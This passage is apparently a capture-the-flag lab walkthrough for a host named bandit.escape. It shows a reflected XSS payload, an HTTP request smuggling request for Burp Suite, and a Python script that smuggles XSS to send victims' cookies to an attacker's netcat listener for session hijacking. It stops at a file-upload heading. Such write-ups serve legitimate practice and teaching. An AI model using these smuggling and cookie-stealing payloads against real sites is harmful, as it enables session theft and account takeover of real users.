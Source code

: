 
### Reflected XSS

Reflected XSS is a type of **Cross-Site Scripting (XSS)** attack where an attacker injects malicious scripts into a web application. The injected script is **reflected** off the web server and executed in the victim's browser.

**How It Works**

1. **Attacker crafts a malicious URL** containing a script.
2. **Victim clicks the link** (via phishing, comments, etc.).
3. **Web server reflects the input** without sanitization.
4. **Victim’s browser executes the script** (stealing cookies, session hijacking, etc.).

---

# Your job

Go to the home page. There's a **search** field.

So, insert the following code on the search field.

```
"><script>alert('1');</script>
```

After click on the Search button you'll see a pop up window like this:

![[Enumeration-20250325205126744.webp]]

>[!Success]
>The pagee is vulnerable to Reflected XSS.


## Apache 7.1.1 — HTTP Smuggling

HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.

This version of Apache is vulnerable to HTTP Smuggling. On this [web](https://regilero.github.io/english/security/2019/10/17/security_apache_traffic_server_http_smuggling/) you can learn more about this vulnerability.

### Exploit

Use the following payload on Burp Suite.

```
GET / HTTP/1.1
Host: bandit.escape
Accept: */*
Connection: keep-alive
Content-Length: 71
Transfer-Encoding: chunked

0
GET /?filter="><script>alert('1')%3B<%2Fscript> HTTP/1.1
Sth:
```

1. Intercept  the http://bandit.escape/?filter=%22%3E%3Cscript%3Ealert%28%271%27%29%3B%3C%2Fscript%3E with Burp Proxy.
2. Send the request to Intruder.
3. Select `Payloads` and set Payload type = `null payloads`.
	![[Exploitation-20250401202714479.webp]]
4. Check the option `Continue indefinitely`.
5. Start the attack.
	![[Exploitation-20250401202952664.webp]]

	Now, upon refreshing the page, we’ll see our XSS in action even though we’re not interacting with the page.

## XSS + HTTP Smuggling = Cookie Graber

Now, you have to combine both vulnerabilities.

There's a tool called [The PHP cookie stealer](https://github.com/TheWation/PhpCookieStealer) that can be use in XSS attacks to steal browser cookies from victims.

The plan is as follows:

1. Host a server that acts as a cookie grabber.
2. Then deploy an XSS payload redirecting to our server.
3. The server reads the cookie.
4. We replace the cookies.


---
# Your job

#Attacking_Machine 
1. Start a netcat listener.
```
nc -lnvp 8002
```

2. Craft a payload. Create a file called xss.py.
```
import requests

url = "http://bandit.escape/"
body = f"""0

GET /?filter=a" /><script>document.write('<img+src%3d"http%3a//10.50.97.227%3a8002/test.gif%3fcookie%3d'+%2b+document.cookie+%2b+'"+/>')</script> HTTP/1.1
Whatever:""".replace('\n', '\r\n')

headers = {
	"Content-Length": str(len(body)),
	"Transfer-Encoding": "chunked",
	}

while True:
	r = requests.get(url,headers=headers, data=body)
```

3. Save the payload and run it.
```
python3 xss.py
```

4. Wait about a minute.
	![[Exploitation-20250405113050702.webp]]
	Gobuster showed there is a page called `upload.php`. Let's try to access.
	
5. Go to http://bandit.escape/upload.php.
6. Open the Dev. Options on your browser and paste the cookie from the previous step on the field `value`.

	![[Exploitation-20250405115302330.webp]]
7. Update the page and you'll have access to the uploads page.
	![[Exploitation-20250405115536051.webp]]


---
## File uploading

